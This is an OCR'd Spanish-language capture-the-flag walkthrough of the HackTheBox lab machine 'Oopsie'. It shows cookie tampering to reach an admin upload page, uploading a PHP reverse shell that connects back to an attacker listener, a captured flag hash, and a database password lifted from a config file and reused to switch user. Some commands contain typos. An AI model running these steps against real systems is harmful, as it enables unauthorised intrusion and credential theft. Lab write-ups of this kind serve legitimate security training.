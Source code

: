 Repair Management System


Access ID	Name	Email
34322	admin	admin@megacorp.com

Access ID	Name	Email
2233	guest	guest@megacorp.com

http://10.129.172.19/cdn-cgi/login/admin.php?content=uploads


---------------------------------------------------------------

Se cambian las cookies con el Inspector de Firefox en Storage


Una vez identificado se sube una revershell shell aqui:
 http://10.129.172.19/cdn-cgi/login/admin.php?content=uploads&action=upload

https://github.com/BlackArch/webshells/blob/master/php/php-reverse-shell.php


http://10.129.172.19/uploads/rr.php


$ cd /home
$ ls
robert
$ cd robert
$ ls
user.txt
$ cat user.txt
f2c74ee8db7983851ab2a96a44eb7981 <<<<<<<<<<<<<<<<<<<<<<<<<<<<<

$ python3 -c 'import pty;pty.span("/bin/bash")'

Monto un servidor http con ptyhon3:
listening on [any] 1234 ...
connect to [10.10.15.44] from (UNKNOWN) [10.129.164.195] 45240
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 
 20:53:02 up 28 min,  0 users,  load average: 0.08, 0.02, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -m http.server 8088


Navego hasta carpetas hasta encontrar la clave de Robert
--------------------------------------------------------

<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>

www-data@oopsie:/var$ su robert
su robert
Password: M3g4C0rpUs3r!

robert@oopsie:/var$ whoami
whoami
robert
robert@oopsie:/var$ 
